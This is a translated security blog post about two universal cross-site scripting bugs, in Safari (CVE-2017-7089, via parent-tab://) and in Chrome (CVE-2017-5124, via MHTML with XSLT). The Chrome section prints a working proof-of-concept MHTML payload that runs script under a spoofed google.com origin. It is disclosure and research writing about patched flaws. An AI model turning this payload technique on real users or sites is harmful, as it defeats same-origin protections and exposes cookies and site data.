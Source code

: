 ```yaml
---
published: false
layout: post
date: '2017-11-14 16:30:00 +0000'
categories: translations
image: browsers-it.png
---
```

**Editor's note: This is a translation of the following article [bo0om.ru/chrome-and-safari-uxss](https://bo0om.ru/chrome-and-safari-uxss).  
Original title: A comic about UXSS in Safari and Chrome
**

Hello! In addition to the vulnerabilities and the client side of the webapps, a security risk is introduced by the client side software itself. No, we're not talking about java or flash, we're talking about browsers themselves.

I want to show you examples in two competing browsers with an UXSS (Universal Cross-site Scripting), one of them being closed source, and the other open source. UXSS is a flaw in a browser' logic, which allows an attacker to execute arbitrary JavaScript on arbitrary sites, in other words - perform an XSS attack there where it's missing.

## Safari

What good things can I say about Safari? It's a simple, lightweight browser without any bloat. To be fair, it's the fastest browser that I have used. What's wrong with that? Well... Safari's weird.

Perhaps you've already read my article about [reading local files (ru)](https://xakep.ru/2017/07/06/safari-localfile-read/) using the browser. Briefly - by opening [the following HTML](https://bo0om.ru/safari_poc/) file in Safari it will read files on the local machine and will try to leak it out, in the PoC - to the same local machine (you'll see the errors in the dev tools).

More than this, the functions in the console are executed while writing them - horror!

<iframe width="560" height="315" src="https://www.youtube.com/embed/Imt4N7xP12w" frameborder="0" gesture="media" allowfullscreen></iframe>

But what did you hear about the pseudo-extension `parent-tab://`? Yes, nothing, only a few reminders. However it is present in Safari.

![parent-tab]({{ site.baseurl }}/content/images/parent-tab.jpg)

Noteworthy, until the 11th version (already), parent-tab has still the same access privileges to domain objects, for example to cookies.

![parent-tab-apple]({{ site.baseurl }}/content/images/parent-tab-apple.png)

What's even way cooler than this - you can write into it. You can just create a local HTML file, write `<iframe>` with parent-tab and using JavaScript you can write arbitrary contents to it! That's how the first exploit is born, where `parent-tab.html` is a redirect to `parent-tab://+domain`.

![first_exploit]({{ site.baseurl }}/content/images/first_exploit.png)

However, you cannot call it from another site, which is a bit saddening. Local exploits are not so fun (well, file reading is a bit more fun).

![bo0om-apple]({{ site.baseurl }}/content/images/bo0om-apple.png)

Here [Frans Rosén](https://twitter.com/fransrosen) comes to the rescue, who figured out that you can also write your payload using `window.open` with the `_top` argument. Wooh - and we get access to site data.

![safari_uxss]({{ site.baseurl }}/content/images/safari_uxss.png)

It turned out that this is a WebKit bug, hence it's probably applicable to Chrome as well. A proof of concept for [CVE-2017-7089](https://support.apple.com/ru-ru/HT208112) is waiting for you on [GitHub](https://github.com/Bo0oM/CVE-2017-7089).

## Chrome

Chrome is a more secure browser. Probably. It's an open source browser afterwards. Besides that, ignoring the modernity - it still supports old things, for example the support for the ancient [MHTML (MIME-HTML)](https://en.wikipedia.org/wiki/MHTML) format.

What does this format represents? It's a text document with written down header, content type (`Content-Type: multipart/related`) and a content separator (boundary). Yes yes, multipart in a file. Further there are additional parameters, encoding type (it may be base64).

It's simpler [to see for yourself](https://www.google.com/search?q=mhtml%20example).

So yeah, you can write down in this file the `Content-location` attribute and then refer to it in the HTML itself.

For example, we can write under `Content-location: /abc` the contents of the file and refer to it using `<img src=/abc>`. We also can write `Content-location: https://example.com/abc` and load it using `<img https://example.com/abc>`.

If that's an image - it will be displayed on the page when attempting to open this file.

All would be fine, but JavaScript is forbidden in it. At all.

But there's a "but": everywhere except in [XSLT](https://en.wikipedia.org/wiki/XSLT).

We set the `Content-Type: application/xml`, insert the XSLT, and we get `alert()`:

```
MIME-Version: 1.0
Content-Type: multipart/related;
type="text/html";
boundary="----MultipartBoundary--"
------MultipartBoundary--
Content-Type: application/xml;
<?xml version="1.0" encoding="UTF-8"?>
<?xml-stylesheet type="text/xml" href="#stylesheet"?>
<!DOCTYPE catalog [
<!ATTLIST xsl:stylesheet
id ID #REQUIRED>
]>
<xsl:stylesheet id="stylesheet" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="*">
<html><script>alert()</script></html>
</xsl:template>
</xsl:stylesheet>
------MultipartBoundary----
```

As you already figured out, in such a document we can write `Content-location: https://example.com` and call JavaScript from there, bypassing the sandbox despite all [SOP](https://en.wikipedia.org/wiki/Same-origin_policy) laws. We're adding to the previous file the following, and we're calling the alert in a frame:

```
------MultipartBoundary--
Content-Type: text/html
Content-Location: https://google.com
<script>alert('Location origin: '+location.origin)</script>
```

In order to open `MHTML`, we have to set the content type in the server's response to `multipart/related`, and we get the following DOM-tree:

![DOM=tree]({{ site.baseurl }}/content/images/html.jpg)

Chrome applied the coresponding patch (thanks to which the exploit was found). Pros - open source software allows one to monitor the changes. Cons: the same.

A proof of concept is available here (Chrome < 62), the source code for [CVE-2017-5124 on GitHub](https://github.com/Bo0oM/CVE-2017-7089).

## Conclusion

What conclusion? Well, be more careful, update your software to minimze the risks, but you've already heard this thousands of times. There's nothing new I can tell you :).

























